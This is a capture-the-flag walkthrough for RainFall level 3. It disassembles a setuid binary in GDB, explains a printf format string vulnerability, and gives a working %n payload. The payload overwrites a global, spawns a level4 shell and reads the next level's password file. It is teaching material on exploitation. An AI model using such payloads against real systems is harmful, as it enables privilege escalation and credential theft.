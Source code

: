 # Level3

## Walkthrough

We list the files in the current home directory.

```bash
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
 BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

The file is owned by **level4** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There are 2 interesting functions: `main()` and `v()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

The `main()` function only calls the `v()` function.

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

The `v()` function:
- calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- calls `printf()` to print the buffer to stdout
- retrieves the value of a global variable stored at memory address `0x804988c` into the `eax` register
- compares the value of `eax` with `0x40` (64 in decimal) and calls `system("/bin/sh")` if the condition is met

`v()` is vulnerable to a format string vulnerability which occurs when an user input is improperly used as a format string in functions like `printf()`, allowing attackers to manipulate memory, access sensitive data, or execute arbitrary code.  
Our goal is to overwrite the value stored at the address `0x804988c` and replace it with the number **64**.

The `printf()` function requests only one mandatory argument. The others, if needed, are also stored on the stack before the call (the first argument being at the top). This means it keeps iterating over the stack as long as it finds a format specifier.  
Furthermore, the function includes the format specifier `%n` which writes the number of printed characters into the address provided as its corresponding argument. If we input a memory address into the format string, and it matches the `%n` specifier, the number of written characters will be stored at this address.

To complete this level, we have to first find the position of the user input on the stack during the call to `printf()` compared to the position its first argument.

```
(gdb) b printf
Breakpoint 1 at 0x8048390
(gdb) r
Starting program: /home/user/level3/level3 
AAAA

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) stepi
0xb7e78851 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
eax            0xbffff430       -1073744848
ecx            0xb7fda005       -1208115195
edx            0xb7fd28c4       -1208145724
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff418       0xbffff418
ebp            0xbffff638       0xbffff638
esi            0x0      0
edi            0x0      0
eip            0xb7e78851       0xb7e78851 <printf+1>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/16wx 0xbffff418
0xbffff418:     0xb7fd0ff4     0x080484da     0xbffff430     0x00000200
0xbffff428:     0xb7fd1ac0     0xb7ff37d0     0x41414141     0xb7e2000a
0xbffff438:     0x00000001     0xb7fef305     0xbffff498     0xb7fde2d4
0xbffff448:     0xb7fde334     0x00000007     0x00000000     0xb7fde000
```

We see that our string represented in hexadecimal as `0x41414141` is located at `0xbffff430`, and we find this address near the top of the stack. We confirm that our format string is in **4th** position in the stack after the first argument passed to `printf()`.

Finally, with the position in mind, we input the target address followed by 3 `%(x)x` format specifiers and our final `%n` in fourth position, for a total of 64 characters.

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%8x%8x%44x%n')"; cat) | ./level3 
�     200b7fd1ac0                                    b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Resources

- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
- [Format-String Vulnerability](https://fengweiz.github.io/20fa-cs315/labs/lab3-slides-format-string.pdf)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings)
- [Format String Vulnerability](https://hackinglab.cz/en/blog/format-string-vulnerability)
